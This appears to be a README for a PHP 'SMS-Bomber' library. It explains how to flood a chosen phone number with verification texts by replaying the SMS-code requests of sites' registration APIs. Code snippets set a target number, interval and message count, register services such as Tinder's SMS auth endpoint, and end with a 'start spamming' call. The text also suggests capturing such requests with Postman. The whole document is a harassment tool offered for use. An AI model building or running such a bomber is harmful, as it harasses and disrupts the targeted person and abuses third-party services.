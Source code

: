 # SMS-Bomber

create your SMS-bomber with this program

* how a bobmer works

I thought about the process of creating an SMS bomber. Climbing the sites with registration using a phone number, 
I began to monitor where the site sends the request, everything was easier than it seemed. In most cases,
the site sends a request for code to its API (basically a PHP script that sends a confirmation code). That is, 
the bomber simply fakes and recreates this very request, as if the user requested something on the site? Yes. 

# usage:
```php
unclude "Bomber.php";

$number = "number";
$interval = 1000; //milliseconds(int)
$count = 20; //messages count(int)

$sms = new Bomber();
$sms->setNumber($number);
```

# add format:

each service requests a number in a different format. 
create the format you need 

```php
$sms->addFormat("myFormat", function($number) {
    return preg_replace("/^\+/", '', $number);
});
```

# add service:

you can add an infinite number of services

```php
$url = "https://api.gotinder.com/v2/auth/sms/send?";
$params = [
    "phone_number" => "%number%",
    "auth_type" => "sms",
    "locale" => "ru",
];
$format = "myFormat";
$sms->addService("Tinder", $url, $params, $format);
```

# how to check and make a request

To make a request without resorting to the code, you can use the free [PostMan](https://www.postman-beta.com/downloads/) utility. 
your open the program, your can register or skip registration and immediately start working. 

# start spamming
```php
$sms->start($interval, $count); 
```